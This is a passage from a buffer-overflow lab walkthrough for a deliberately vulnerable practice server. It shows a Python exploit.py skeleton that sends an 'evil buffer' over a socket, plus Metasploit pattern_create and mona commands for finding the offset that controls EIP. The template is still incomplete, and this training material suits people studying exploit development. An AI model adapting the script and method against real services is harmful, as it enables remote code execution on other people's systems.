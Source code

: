### Crash Replication & Controlling EIP

Create another file on your Kali box called `exploit.py` with the following contents:

```python
import socket

ip = "10.10.17.141"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Copy the output and place it into the payload variable of the `exploit.py` script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the `exploit.py` (which we will run multiple times with incremental modifications).

On Kali, run the modified `exploit.py` script: `python3 exploit.py`

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

```
!mona findmsp -distance 2400
```

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).
